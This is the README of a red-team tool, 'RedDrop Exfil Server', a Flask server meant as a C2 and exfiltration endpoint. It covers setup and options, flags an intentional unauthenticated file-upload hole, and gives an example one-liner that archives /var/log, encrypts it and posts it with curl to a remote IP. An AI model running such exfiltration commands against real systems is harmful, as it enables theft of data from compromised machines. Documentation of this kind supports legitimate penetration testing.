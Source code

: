 # RedDrop Exfil Server
RedDrop Exfil Server is a Python Flask Web Server for Penetration Testers, Red Teamers, and Security Professionals which features:
- [[File Upload]]
- [[Dynamic Request Parameter Logging]]
- [[Automatic Archive Extraction]]
- [[Automatic Decryption]]
- [[Automatic Decoding]]

This software is intended to be used as an a rudementary C2 endpoint for capturing web request data in various scenarios. Some examples may include:
- A blind command injection vulnerability
- An XSS attack where a quick and dynamic web request logging server is needed
- A situation where remote shell access has been obtained and a verbose-logging web-based exfiltration server is desired

**This project is still in development and some features may be buggy. If you run into problems, please open an Issue!**

### A note on security
This software should not be left generally accessible to the broader Internet. It is built with what some might consider an Arbitrary File Upload vulnerability by intention, and will accept and save files to the local disk without authorization or authentication. Due diligence should be taken to ensure that the system this software is deployed to is secured properly. A few recommendations:
- Place a Reverse Proxy to route and block traffic to this web application
- Whitelist your target's IP space
- Don't auto extract archives without understanding my filtering method

## Quick Start
### Docker
```bash
docker run -t -v "$PWD/uploads:/reddrop/uploads" -v "$PWD/logs:/reddrop/logs" -p "80:80" -n reddrop cyberbutler/reddrop-exfil-server -h
```
### PipEnv
```bash
pip install --user pipenv
pipenv install
pipenv shell
python reddrop-server.py -h
```

### Options
```bash
python reddrop-server.py -h

usage: reddrop-server.py [-h] [--host HOST] [--port PORT] [-c CONFIG]
                        [--dump-config] [--debug]
                        [-p {hex,openssl-aes256-pbkdf2,gzip,b64}]
                        [-A | --auto-process | --no-auto-process]
                        [--auto-extract-tar]
                        [--encryption-password PROCESSOR_ARGUMENTS.OPENSSL-AES256-PBKDF2.PASSWORD]

A Webserver for File Exfiltration and C2.

optional arguments:
  -h, --help            show this help message and exit
  --host HOST, -H HOST  The host IP Address to bind to (default: 0.0.0.0)
  --port PORT, -P PORT  The port to bind to (default: 80)
  -c CONFIG, --config CONFIG
                        YAML config file path (default: None)
  --dump-config         Dump the configuration settings as YAML (default:
                        False)
  --debug               Enable Flask's Debug Mode (default: False)
  -p {hex,openssl-aes256-pbkdf2,gzip,b64}, --processor {hex,openssl-aes256-pbkdf2,gzip,b64}
                        Specify a processor to use. This flag can be used more
                        than once to define multiple process_list functions.
                        Use this flag in the order in which you wish to
                        process received data (default: [])
  -A, --auto-process, --no-auto-process
                        Automatically run processors based on detected data.
                        This option is enabled by default, but should be
                        disabled (--no-auto-process) when you receive output
                        you don't expect. Such as in the case of Base64
                        decoding being run on output that is not Base64
                        encoded. Instead, force the process with the `-p`
                        flag. (default: True)
  --auto-extract-tar, -x
                        Auto extract TAR archives received by the server.
                        (default: False)
  --encryption-password PROCESSOR_ARGUMENTS.OPENSSL-AES256-PBKDF2.PASSWORD
                        The password used to decrypt/encrypt. (default:
                        EncryptMe)

Far more configuration options exist which must be specified in Environment
Variables, use `--dump_config` to see all of the options

```

### Examples
#### Exfiltrating a Tar archive and command output from a Linux system
```bash
tar cz /var/log | base64 | xxd -ps | gzip | openssl enc -aes-256-cbc -pass 'pass:EncryptMe' -e -a -pbkdf2 | curl 172.17.0.1$PWD -F 'logs=@-' -F "listing=`ls -al * | gzip | base64`"
```

![example-screenshot.png](docs/example-screenshot.png)

## Todo
- [ ] Greater documentation of techniques using this web server
- [ ] Chunked File Upload handling and example commands
- [ ] More Processing modules
- [ ] Expand archive extraction functionality
